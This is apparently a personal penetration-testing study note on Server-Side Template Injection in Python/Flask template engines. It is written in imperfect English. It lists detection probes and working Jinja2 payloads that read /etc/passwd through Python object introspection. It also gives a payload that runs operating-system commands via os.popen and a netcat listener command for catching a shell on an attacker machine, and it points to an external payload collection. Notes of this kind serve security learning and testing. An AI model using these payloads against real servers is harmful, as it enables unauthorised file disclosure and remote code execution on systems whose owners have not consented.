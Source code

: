 # Server Site Template Injection

Take advantage of a engine of templates (this are used to represent dynamic data).

This type of attack point to the server to see internal files or sometimes an [[RCE]]

- If the attack is in the side of the client this is consider a [[CSTI]] attack

----

# How to identify this

The first of all, if you see that is using some engine of templates like **flask** or is being used python you can try to put this in some field:

> {{7\*7}} 

If in the **response show the result** this meaning that is **vulnerable**

You have to try a lot of payloads until you find the right one

Or you can say the number seven represent me seven times:

> {{'7'\*7}}



---

# Read remote files from victim machines

Remember not always work the same way, you have to try different

1. 

````python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
````

2.

````python
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
````

3.

````python
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
````


----

# Execute commands

Normally the command that work most of the time

````python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
````

Now you can gain access to the victim machine, using in our attacker machine:

> nc -nlvp 53

----

# extra sources

Remember that you can use [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) specifically the section of SSTI

---

# Tags

#ssti #vulnerabilty 

---
